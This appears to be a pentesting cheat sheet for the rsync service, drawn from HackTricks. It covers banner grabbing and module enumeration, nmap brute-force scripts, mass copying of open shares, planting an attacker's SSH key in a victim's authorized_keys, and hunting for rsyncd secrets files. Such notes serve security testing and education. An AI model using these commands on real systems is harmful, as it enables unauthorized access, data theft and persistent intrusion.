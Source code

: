 # Rsync
## info
* common port: 873/tcp
* rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification times and sizes of files. It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression, and SSH or stunnel can be used for security.
## enumeration
### Banner and manual communication
<pre>
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
</pre>
### Enumerate shared folders
* An rsync module is essentially a directory share. These modules can optionally be protected by a password. This options lists the available modules and, optionally, determines if the module requires a password to access**:**
* nmap -Pn -v 10.10.10.3 -p873 -sV --script=rsync-list-modules
* nmap -Pn -v 10.10.10.3 -p873 -sV --script=rsync-brute --script-args=userdb=./userlist.txt,passdb=./passlist.txt
* msf6> use auxiliary/scanner/rsync/modules_list
<pre>
#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
</pre>
* Notice that it could be configured a shared name to not be listed. So there could be something hidden.
Notice that it may be some shared names being listed where you need some (different) credentials to access. So, not always all the listed names are going to be accessible and you will notice it if you receive an "Access Denied" message when trying to access some of those.
### Manual rsync
* Once you have the list of modules you have a few different options depending on the actions you want to take and whether or not authentication is required. If authentication is not required you can list a shared folder.   * And copy all files to your local machine via the following command.
<pre>
<-- no auth needed -->
  
#list shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

#copy contents
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
</pre>
* This recursively transfers all files from the directory <shared_name> on the machine <IP>into the ./rsync_shared directory on the local machine. The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.
* If you have credentials you can list/download a shared name using (the password will be prompted)
<pre>
<-- we have valid credentials -->
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
</pre>
* You could also upload some content using rsync (for example, in this case we can upload an authorized_keys file to obtain access to the box):
<pre>
#upload authorized_keys file
rsync -av ./id_rsa.pub rsync://rsync-connect@10.10.246.76/files/user1/.ssh/authorized_keys
# utana pedig fontos hogy privat kulccsal csatlakozunk
sudo ssh -i ./.ssh/id_rsa user1@10.10.10.3
</pre>
* authorized keys files contains public keys (if there is one public key we want, we can simply copy id_rsa.pub to authorized_keys)
* we can generate ssh keys (if we dont have) with the following command
  * ssh-keygen -f id_rsa
### if you are on the victim machine
* Find the rsyncd configuration file locally
<pre>
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
</pre>
* Inside the config file sometimes you could find the parameter secrets file = /path/to/file and this file could contains usernames and passwords allowed to authenticate to rsyncd.
## source
* https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync
